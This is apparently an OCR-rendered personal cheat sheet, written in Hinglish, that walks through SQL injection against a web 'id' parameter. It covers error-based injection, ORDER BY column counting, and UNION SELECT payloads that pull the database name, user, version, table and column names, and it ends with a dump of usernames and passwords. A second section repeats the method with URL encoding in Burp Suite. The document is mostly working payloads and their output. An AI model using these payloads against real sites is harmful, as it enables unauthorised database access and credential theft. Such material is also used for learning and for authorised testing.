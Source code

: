 step 3 :- id=5 AND (SELECT 1 FROM (SELECT COUNT(*), CONCAT((SELECT database()), 0x3a, FLOOR(RAND(0)*2)) AS x FROM information_schema.tables GROUP BY x) y)   ...| Generate Error for Info (Error-Based SQLi) |

step 4 :- id=5 ORDER BY 1--+
id=5 ORDER BY 2--+
id=5 ORDER BY 3--+
id=5 ORDER BY 4--+ | When error aata hai `ORDER BY 4--+`, means only **3 columns**.
 
 step 6 :- id=-1 UNION SELECT 1,2,3--+
 | Use `UNION SELECT` to test data display |
 
| * ———————————-Extract Database Info———————-* |  |

step 7 :-  id=-1 UNION SELECT 1, database(), 3--+             ..........| Current Database  :-  shopdb |

step 8 :- id=-1 UNION SELECT 1, user(), 3--+               ........| Current User :- root@localhost |

step 9 :- id=-1 UNION SELECT 1, version(), 3--+           ..........| DB Version :- 10.3.31-MariaDB |

step 10 :- id=-1 UNION SELECT 1, table_name, 3 FROM information_schema.tables WHERE table_schema='shopdb'--+          ........| List All Tables   :-  products
                                 users |
step 11 :- id=-1 UNION SELECT 1, column_name, 3 FROM information_schema.columns WHERE table_name='users'--+            .......| List All Columns in `users` :- id, username, password |

step 12 :-  id=-1 UNION SELECT 1, username, password FROM users--+
 | Dump Users Table (Username & Password) :- admin | admin123
                    vaibhav | hello@123 |

--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------
                    
2] *————-Burpsuit me sql injecsion kaise perfrom krege————————* |  |
step 1 :  id=5 | Find parameter GET , POST |

step 2 :  id=5' | Genrate Erroer (erroe show like this)  |

step 3 :  id=5' --   &    5'+--                  …not query balance                           
            id=5'+--+-         …query balance | Query Balance & url incoded kerna padega    (ctrl + u) |
            
step 4 : 5'order+by+100+--+-                        …data change                                          • 5' order+by+10+--+-                        …change 
• 5' order+by+13+--+-                     not change in website means 1 se 13 taak table hai hmare pass. | jb query balance ho jaye to Order by 100,50,10,4,5,9 aise number dal ke check kerte hai.   + means url incoded |

step 5 :-  5' union select 1,2,3,4,5,6,7,8,9,10,11,12,13 -- -      (url incoded kro)          • url incode :- 5'+union+select+1,2,3,4,5,6,7,8,9,10,11,12,13+--+-   ... | ab 1 se 13 taak kaun si table vulnereble hai wo check kerna hai. |

step 6 :- id=-5'+union+select+1,2,3,4,5,6,7,8,9,10,11,12,13+--+- | 5 ke aage - lagado to data show hoga.yaha pe 4 aur 5 table vuln mila |
